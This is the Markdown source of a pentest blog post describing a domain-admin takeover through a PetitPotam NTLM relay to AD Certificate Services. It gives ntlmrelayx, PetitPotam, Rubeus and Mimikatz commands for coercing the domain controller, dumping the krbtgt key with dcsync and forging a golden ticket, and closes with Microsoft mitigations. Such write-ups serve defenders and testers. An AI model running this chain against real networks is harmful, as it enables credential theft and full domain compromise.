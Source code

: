 ```yaml
---
layout: single
date: 2022-04-22
title: "Pwning Domain Admin with PetitPotam"
toc: true
draft: false
type: ["posts","post"]
categories:
  - Courses
tags:
  - ActiveDirectory
  - RedTeam
  - Pentest
  - PetitPotam
  - NTLM Relay
  - ADCS
---
```

**Disclaimer:**
Original research was done by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) in their [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) whitepaper.

[PetitPotam](https://github.com/topotam/PetitPotam) PoC was written by [Lionel Gilles](https://twitter.com/topotam77).



## Introduction
In a recent network pentest, I found an ADCS CA (Active Directory Certificate Services Certificate Authortity) on the target domain. I haven't gotten a chance to play around with ADCS before, but I did remember reading about one attack technique called [PetitPotam](https://github.com/topotam/PetitPotam) that abuses NTLM Relay via ADCS to take over the domain. After some time reading up about the technique and getting my hands dirty, I have successfully compromised DA! This blog post will be a quick rundown of how I got DA using this attack.

### Active Directory Certificate Services
At a high level, ADCS is a server role in Windows Active Directory that allows users to build a Public Key Infrastructure (PKI). This means that it can provide digital certificates and digital signature capabilities, improving confidentiality via encryption and integrity via digital signatures. The practical applications of ADCS are SSL/TLS, VPN (Virtual Private Network), IPSec (Internet Protocol Security), EFS (Encrypting File System), Smart Card logon, and more.

### PetitPotam
PetitPotam is an attack technique that abuses NTLM Relay via ADCS CA with Web Enrollment enabled by exploiting the MS-EFSRPC (Encrypting File System Remote Protocol). This technique allows an **unauthenticated** attacker in the internal network to force the Domain Controller (DC) machine account to authenticate towards a machine with NTLM relay configured (the attacker machine). This authentication will then be relayed to the CA Web Enrollment to request for a certificate as the DC. This certificate can be captured and be used to request for a TGT as the DC machine account. With this TGT, Mimikatz can be used to dump credentials of the DA or the krbtgt account to fully compromise the Active Directory environment.

## Action
From the foothold domain machine, I did some enumeration and was able to locate a CA in the domain. A native Windows tool called `certutil.exe` or [Certify](https://github.com/GhostPack/Certify) can be used for this purpose. Certify is a C# tool to enumerate and abuse misconfigurations in ADCS, this tool can also be used to look for vulnerable certificate templates. Misconfiguration in certificate templates can lead to privilege escaltion, unfortunately, no vulnerable template was identified.
{{< image src="/images/CA_.png" alt="CA" position="left" style="border-radius: 8px;" >}}
*Identified CA*


With this, I was able to launch the ADCS Relay attack. The idea is to corece the DC to connect to the attacker machine, then relay the credential of the DC machine account to the ADCS server and request for a certificate (on behalf on the DC$). With this certificate, we can request for a TGT as the DC, and proceed to pwn the whole environment.

From the attacker box, launch `ntlmrelayx.py`:

``` bash
ntlmrelayx.py -debug -smb2support --target https://ca-hostname/certsrv/certfnsh.asp --adcs --template domaincontroller
```
The `--template` argument would depend on the account that would be relayed. Since I was relaying a DC, then the template should be `domaincontroller`, you could enumerate the template on the ADCS using Certify: `Certify.exe cas`

On another window on the attacker box, launch [PetitPotam](https://github.com/topotam/PetitPotam) against the DC:

``` bash
sudo python3 petitpotam.py <Attack box's IP> <DC's IP>
```

The attack was successful, on the ntlmrelayx window, a Base64 encoded certificate of the DC machine account was captured:
{{< image src="/images/b64cert.png" alt="certfnsh.asp" position="left" style="border-radius: 8px;" >}}
*Base64 certificate of DC$*


From here, I proceeded with requesting for a TGT of DC$ using `Rubeus`:

``` powershell
Rubeus.exe asktgt /user:DC$ /domain:<domain> /certificate:<base64-certificate> /ptt
```
With the `/ptt` option, the returned TGT of DC$ would be imported into my current user session.
\
From here, a threat actor can aim for the highest prize by dumping the AES256 encryption key of the krbtgt account to forge a Golden Ticket:
Launch Mimikatz and dump the AES256 encryption key:

``` powershell
# From mimikatz:
lsadump::dcsync /domain:<domain> /user:krbtgt
```
Once the AES256 encryption key of the krbtgt account has been captured, the Golden Ticket could be forged:

``` powershell
# From Mimikatz:
kerberos::golden /user:Administrator /domain:<domain> /sid:<SID of the domain> /aes256:<aes256 key> /ticket:goldie.kirbi
```
Proceed to inject the Golden Ticket:

``` powershell
Rubeus.exe ptt /ticket:goldie.kirbi
```
GG!

## Mitigation

The misconfiguration has been mitigated immediately by enabling Extended Protection for Authentication (EPA) for CA Web Enrollment and Certificate Enrollment Web Service.

Addition mitigations that are recommended by Microsoft are:
- Disable NTLM Authentication on Windows Domain Controllers.
- Disable NTLM on any ADCS server using Group Policy.
- Disable NTLM for Internet Information Services (IIS) on AD CS Servers in the domain running the "Certificate Authority Web Enrollment" or "Certificate Enrollment Web Service" services.
\

More information can be found [here](https://support.microsoft.com/en-gb/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429?ranMID=46131&ranEAID=a1LgFw09t88&ranSiteID=a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA&epi=a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA&irgwc=1&OCID=AID2200057_aff_7806_1243925&tduid=%28ir__pbc1z9tr09kf62lfkn9aaeqtum2xtbsisdfgml0c00%29%287806%29%281243925%29%28a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA%29%28%29&irclickid=_pbc1z9tr09kf62lfkn9aaeqtum2xtbsisdfgml0c00)
